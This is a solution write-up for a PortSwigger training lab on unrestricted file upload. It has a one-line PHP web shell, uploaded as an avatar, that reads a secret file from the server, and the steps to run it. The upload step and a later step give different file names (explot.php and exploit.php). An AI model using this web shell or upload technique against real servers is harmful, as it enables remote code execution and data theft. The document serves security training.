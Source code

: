 # Lab: Remote code execution via web shell upload

## Description

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file ```/home/carlos/secret```. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: ```wiener:peter```

[ACCESS LAB](<https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/file-upload-apprentice/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload#>)

## Solution

1. Navigate into "My account".
1. Upload a file as avatar with name explot.php with the content:
    > ```<?php echo file_get_contents('/home/carlos/secret'); ?>```
1. Now inspect the image with the browser developer tools.
1. You see ```<img src="/files/avatars/exploit.php" class="avatar">```
1. Copy the link address and visit it in the browser.
1. The page will contain the secret you must submit by clicking the button at the top of the lab page to solve it.
